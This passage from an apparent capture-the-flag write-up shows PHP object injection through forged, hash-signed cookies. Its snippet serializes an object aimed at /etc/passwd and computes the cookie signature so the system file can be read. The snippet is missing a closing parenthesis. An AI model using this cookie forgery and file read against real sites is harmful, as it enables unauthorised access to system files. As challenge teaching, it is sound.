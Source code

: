 As you can see, the `SETTINGS` class verifies the received cookies against a hard-coded hash and then deserializes the `settings` value. On another account, the `VISUALIZER` class implements two *magic methods* `__construct` and `__destruct`. As we have all needed to cook cookies we can try object injection (or [try at home](https://gist.github.com/0xBADCA7/c8be92b52ace19746220)):

~~~php
<?php
	$vz = new VISUALIZER('/etc/passwd');
	$serialized = serialize($vz);
	print $serialized;
	print(base64_encode($serialized);
	print hash("sha512", "0c53bfaaf9cf61ee0fe633d04bf1aa2ce4447c6e" . base64_encode($serialized) . "e535a49df94bc36992b5e20e03c9be466f961219", false);
?>
~~~

Shove in the obtained `token` and `settings` into browser cookies and reload the existing session while browsing the challenge. Now you have to type in to the chat window the same file path that you specified in the object injection (`/etc/passwd` in this example) as the contents of that ultimately ends up in the DB and to get it back you need to pass it on to `[URI]/etc/passwd[/URI]`. At this moment one may realize that this essentially has the same effect as without object injection.

> Read the manual if unsure, post comment(s) if unclear.

